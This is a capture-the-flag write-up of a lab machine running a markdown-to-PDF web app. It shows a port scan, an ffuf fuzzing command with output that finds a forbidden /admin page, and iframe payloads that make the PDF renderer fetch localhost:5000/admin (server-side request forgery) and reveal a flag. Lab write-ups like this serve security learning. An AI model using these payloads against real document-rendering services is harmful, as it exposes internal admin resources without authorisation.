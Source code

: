 ```yaml
---
sticker: lucide//code
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 5000 | RSTP    |



# RECONNAISSANCE
---

If we check the web application, we can see this:


![](../images/Pasted%20image%2020250617123928.png)

As seen, we can convert markdown to pdf, this is highly vulnerable since at its core it blindly hands our Markdown straight off to a server‑side renderer, whether that’s a headless browser or Pandoc+LaTeX with no filtering or authentication. 

That means we can sneak in `<script>` tags or raw LaTeX commands and make the server fetch internal URLs (like `localhost:5000/resource`) or even execute shell commands. In short, untrusted input becomes powerful SSRF or RCE, exposing private admin panels and letting attackers run arbitrary code.

If we fuzz, we can find this:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.129.226/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.129.226/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 403, Size: 166, Words: 15, Lines: 5, Duration: 231ms]
```

We can find an admin resource on here, if we try accessing it, this happens:

![](../images/Pasted%20image%2020250617124337.png)

Based on that, we now we can exploit the md2pdf site to achieve access to the admin resource, let's do it.


# EXPLOITATION
---

First of all, we need to exfiltrate the data, we can use the following payload:

```js
<iframe src="http://localhost:5000"></iframe>
```

We use iframe to achieve `SSRF`, basically the pdf engine will render the internal resource and give us access to it, let's test it out:



![](../images/Pasted%20image%2020250617125048.png)

![](../images/Pasted%20image%2020250617125056.png)

It works, let's read admin resource then:

```js
<iframe 
  src="http://localhost:5000/admin" 
  style="width:100%; height:1000px; border:none; overflow:hidden;">
</iframe>
```

![](../images/Pasted%20image%2020250617125137.png)

![](../images/Pasted%20image%2020250617125144.png)

We got our flag:

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

![](../images/Pasted%20image%2020250617125225.png)

